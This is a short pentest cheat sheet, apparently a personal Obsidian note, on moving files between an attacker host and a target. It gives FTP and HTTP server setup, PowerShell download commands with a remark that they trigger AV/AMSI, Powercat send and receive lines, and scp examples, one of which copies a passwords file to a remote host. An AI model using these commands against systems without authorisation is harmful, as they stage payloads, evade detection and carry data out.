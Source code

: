 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#exploitation
# Services to Host Files on your System: 

General Options: 

FTP:

Install pyftpdlib
- pip3 install pyftpdlib

Pure-ftpd
- sudo apt install pure-ftpd
- service pure-ftpd start

Run (-w flag allows anonymous write access)
- Python3 -m pyftpdlib -p 21 -w

Web: 

- Python3 -m http.server 443
- service apache2 start

Powershell: 

Raw (Will get flagged by AV/AMSI): 

- powershell -c (New-Object Net.WebClient).DownloadFile('http://172.21.0.0:port/file', 'output-file'
- powershell -c Invoke-WebRequest -Uri "http://172.21.0.0" -OutFile "C:\path\file"


Use Powercat: 

Send File:
    powercat -c 10.1.1.1 -p 443 -i C:\inputfile
Recieve File:
    powercat -l -p 8000 -of C:\inputfile

Linux: 

scp: 

- scp [OPTION] [user@]SRC_HOST:]file1 [user@]DEST_HOST:]file2

scp through ssh: 

- scp -P 2322 passwords.txt remote_username@172.21.0.2:/remote/directory

scp remote file to local system: 

- scp remote_username@172.21.0.2:/remote/file.txt /local/directory


# Services to allow you to upload files to your system from the target: 

- SimpleHTTPServer Upload: https://gist.github.com/touilleMan/eb02ea40b93e52604938


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
